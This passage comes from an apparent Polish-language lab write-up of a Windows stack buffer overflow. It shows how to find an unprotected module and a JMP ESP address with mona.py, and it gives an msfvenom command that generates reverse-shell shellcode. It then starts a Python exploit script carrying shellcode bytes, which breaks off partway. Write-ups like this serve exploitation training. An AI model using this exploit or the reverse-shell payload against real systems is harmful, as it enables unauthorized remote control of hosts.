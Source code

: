 - W pamięci widać, że wczytane zostały wszystkie wysłane dane
![](https://i.imgur.com/7GnVCMc.png)


## 5. Znalezienie odpowiedniego modułu w pamięci niezabezpieczonego przez ASLR, NX lub SafeSEH.
- Następnym krokiem jest znalezienie odpowiedniego, niezabezpieczonego modułu, który umożliwi nam odnalezienie i wykorzystanie instrukcji JMP ESP, w celu przeskoczenia pod adres wskazywany przez rejestr ESP. Do tego celu używamy skryptu `mona.py` w Immunity Debugger i szukamy modułów niezabezpieczonych przez DEP, ASLR i Safe SEH

![](https://i.imgur.com/Drt3HeX.png)

- Widać, że żaden z modułów nie spełnia naszych wymagań, sprawdzamy więc wszystkie moduły po kolei w poszukiwaniu miejsca gdzie znajduje się instrukcja JMP ESP i sprawdzamy czy zadziała ona po umieszczeniu tego adresu w EIP. W tym celu sprawdzamy kod szesnastkowy instrukcji JMP ESP

![](https://i.imgur.com/qHCs9GV.png)

- Następnie ponownie używamy skryptu `mona.py`, polecania `!mona find -s "\xff\xe4" -m SLMFC.DLL` aby wyszukać adresy pamięci gdzie znajdują się bajty `\xff\xe4`
![](https://i.imgur.com/xjdjfAu.png)

- Wybieramy adres który nie zawiera złych znaków (np. `\xfb\x41\xbd\x7c`). Wykorzystując go w naszym eksploicie musimy pamiętać aby zastosować odpowiednią końcówkowość (grubukońcuwkowość/cinkokońcówkowość)


## 6. Wygenerowanie shellcode.

By wykonać akcje na atakowanym hoście potrzebujemy wygenerować ```shellcode```, który wykona użyteczne dla nas kroki po udanej próbie exploitacji usługi. Shellcode taki możemy na przykład wygenerować za pomocą polecenia ```msfvenom -p windows/shell_reverse_tcp LHOST=<local IP> LPORT=<local port> EXITFUNC=thread -f c -a x86 -b “<bad characters>”```. W naszym przypadku wyglądało to w taki sposób:

![](https://i.imgur.com/W5hRRKc.png)

## 7. Uruchomienie eksploita i radość z uzyskanego połączenia reverse shell.

Żeby wreszcie wykorzystać wszystko czego się dowiedzieliśmy komponujemy ostatni skrypt, który w odpowiednim miejscu nadpisze rejester EIP i nieco dalej wstrzyknie shellcode, który rozpocznie połączenie typu reverse-shell. Skrypt wygląda praktycznie identycznie, różnicą jest to, że wysyłany string będzie zawierał kolejno ```'A'*offset```, adres instrukcji ```JMP ESP```, 50 znaków ```NOP``` oraz wygenerowany ```shellcode```. Poniżej widać skrypt użyty przez nas:

```
#!/usr/bin/python2
import socket,sys


s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

shell_code = ("\xba\xcd\x4b\xc9\xc2\xd9\xc3\xd9\x74\x24\xf4\x5e\x29\xc9\xb1"+
"\x52\x31\x56\x12\x03\x56\x12\x83\x0b\x4f\x2b\x37\x6f\xb8\x29"+
"\xb8\x8f\x39\x4e\x30\x6a\x08\x4e\x26\xff\x3b\x7e\x2c\xad\xb7"+
"\xf5\x60\x45\x43\x7b\xad\x6a\xe4\x36\x8b\x45\xf5\x6b\xef\xc4"+
"\x75\x76\x3c\x26\x47\xb9\x31\x27\x80\xa4\xb8\x75\x59\xa2\x6f"+
"\x69\xee\xfe\xb3\x02\xbc\xef\xb3\xf7\x75\x11\x95\xa6\x0e\x48"+
"\x35\x49\xc2\xe0\x7c\x51\x07\xcc\x37\xea\xf3\xba\xc9\x3a\xca"+
"\x43\x65\x03\xe2\xb1\x77\x44\xc5\x29\x02\xbc\x35\xd7\x15\x7b"+
"\x47\x03\x93\x9f\xef\xc0\x03\x7b\x11\x04\xd5\x08\x1d\xe1\x91"+
"\x56\x02\xf4\x76\xed\x3e\x7d\x79\x21\xb7\xc5\x5e\xe5\x93\x9e"+
"\xff\xbc\x79\x70\xff\xde\x21\x2d\xa5\x95\xcc\x3a\xd4\xf4\x98"+
```